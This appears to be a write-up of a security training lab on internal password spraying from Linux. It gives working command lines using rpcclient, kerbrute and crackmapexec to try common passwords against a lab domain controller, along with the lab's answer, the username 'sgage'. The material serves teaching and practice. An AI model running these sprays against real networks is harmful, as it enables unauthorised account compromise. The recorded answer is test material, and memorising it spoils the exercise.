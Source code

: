 <div align='center'>

# **Lab 8: Internal Password Spraying - from Linux** 

</div>

## **Internal Password Spraying from a Linux Host**

### **Using a Bash one-liner for the Attack**

```zsh
for u in $(cat users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

This command will try to authenticate to the domain controller with each username in the users.txt file and the password `Welcome1`. If the authentication is successful (which is indicated by the keyword `Authority` in the respond), the user's username will be returned.

Here is the result:

![](../imgs/Lab/Lab8/1.png)

We get 3 users: `sgage`, `mholliday`, and `tjohnson`

### **Using Kerbrute for the Attack**

```zsh
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 users.txt  Welcome1
```

Here is the result:

![](../imgs/Lab/Lab8/2.png)

We get a user: `sgage`

### **Using CrackMapExec & Filtering Logon Failures**

```zsh
crackmapexec smb 172.16.5.5 -u users.txt -p Password123 | grep +
```

Here is the result:

![](../imgs/Lab/Lab8/3.png)

We get a user: `avazquez`

Validate the user:

![](../imgs/Lab/Lab8/4.png)

**Question:** Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer.

- **Answer:** sgage

![](../imgs/Lab/Lab8/5.png)